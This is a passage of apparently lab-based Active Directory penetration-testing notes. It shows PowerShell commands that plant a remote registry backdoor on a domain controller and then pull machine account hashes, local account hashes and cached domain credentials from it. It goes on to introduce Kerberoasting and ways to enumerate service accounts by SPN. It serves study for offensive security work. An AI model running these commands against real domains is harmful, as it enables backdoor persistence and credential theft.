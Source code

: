 * Using RACE or DAMP, with admin privs on remote machine

```
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

* As student1, retrieve machine account hash -

```
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

**NOTE - Here If we got a MachineAccountHash we can implement a silver ticket! (as MachineAccount is a service so TGS it is) \[RPCSS service gives us the rights to interact with DC using WMI]**

* Retrieve local account hash -

```
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

* Retrieve domain cached credentials -

```
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

```
BONUS COMMAND! (WMI) --> gwmi -Class win32_operatingsystem -COmputerName dcorp-dc
```

## 5. Privilege Escalation -

### Kerberosting - (3 types | classic is most effective)

* **Brute-forcing the service tickets offline for the cleartext passwords of the target application.**
* Offline cracking of service account passwords.
* The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
* Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

**We will use only those user acocunts that are used to run services.**&#x20;

**NOTE --> \[users whose SPN is not $null is treated as a service account by the KDC] It doesn't matter if there is a service running or not, you can ask for a service ticket for those accounts.**

Find user accounts used as Service accounts -

* ActiveDirectory module -

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

* PowerView -

```
Get-DomainUser -SPN
```
